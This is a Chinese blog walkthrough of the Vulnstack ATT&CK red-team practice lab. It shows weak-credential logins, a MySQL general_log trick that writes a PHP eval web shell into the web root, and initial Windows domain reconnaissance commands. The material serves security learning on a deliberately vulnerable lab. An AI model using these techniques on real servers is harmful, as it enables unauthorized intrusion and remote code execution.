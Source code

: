 title: ATT&CK红队评估实战靶场
author: bmth
tags:
  - 内网渗透
categories: []
img: 'https://img-blog.csdnimg.cn/20210525205719281.png'
date: 2021-05-25 20:27:00
---
最近在学内网，但没有啥实例给我用，就下载了ATT&CK红队评估实战靶场：[http://vulnstack.qiyuanxuetang.net/vuln/](http://vulnstack.qiyuanxuetang.net/vuln/)，来进行学习，冲冲冲
![](https://img-blog.csdnimg.cn/20210525205719281.png)
## ATT&CK实战系列——红队实战（一）
win7为VM1，win2003为VM2，win2008为VM3
![](https://img-blog.csdnimg.cn/20210520170122694.png)
kali设置成NAT模式，win7网络适配器1设置成自定义（VMnet1仅主机模式），网络适配器2设置成NAT模式，win2003、win2008 网络适配器设置成自定义（VMnet1仅主机模式）
主机默认开机密码都是hongrisec@2019，需要在win7的c盘下开启phpstudy，打开虚拟机更改密码为bmth@123456
```
Kali1：192.168.81.128
Kali2：192.168.81,135
win7 内网ip：192.168.52.143  外网ip：192.168.81.136
win2003 ip：192.168.52.141
win2008 ip：192.168.52.138
```
使用nmap扫描一下端口，发现只开放了80和3306
![](https://img-blog.csdnimg.cn/20210520181346348.png)
### 网站getshell
扫描目录发现存在phpmyadmin和beifen.rar，可以知道网站为yxcms！
#### 方法一
第一种为弱密码，发现后台地址为：`http://192.168.81.136/yxcms/index.php?r=admin/index/login`，使用admin，123456登录成功，直接就可以编辑文件了，写入一句话
![](https://img-blog.csdnimg.cn/20210520182854681.png)
![](https://img-blog.csdnimg.cn/20210520183007223.png)
#### 方法二
第二种方式为phpmyadmin后台getshell，发现root，root 成功登陆，用开启全局日志的方式getshell，在SQL语句部分执行这两条命令：
```sql
set global general_log=on;# 开启日志
set global general_log_file='C:/phpstudy/www/yxcms/bmth.php';# 设置日志位置为网站目录
```
然后查看一下 `SHOW VARIABLES LIKE '%general%';`
![](https://img-blog.csdnimg.cn/20210520183943340.png)
最后写入日志文件即可，执行 `select "<?php eval($_POST['bmth']);?>";`语句即可getshell
![](https://img-blog.csdnimg.cn/20210520184156114.png)
### 内网渗透
#### 主机信息收集
`net config Workstation` (当前计算机名，全名，用户名，系统版本，工作站域，登陆域)
![](https://img-blog.csdnimg.cn/20210522132527599.png)
发现当前域是god.org，`systeminfo` 查看系统信息，得到登录服务器名是OWA
![](https://img-blog.csdnimg.cn/20210525160240904.png)
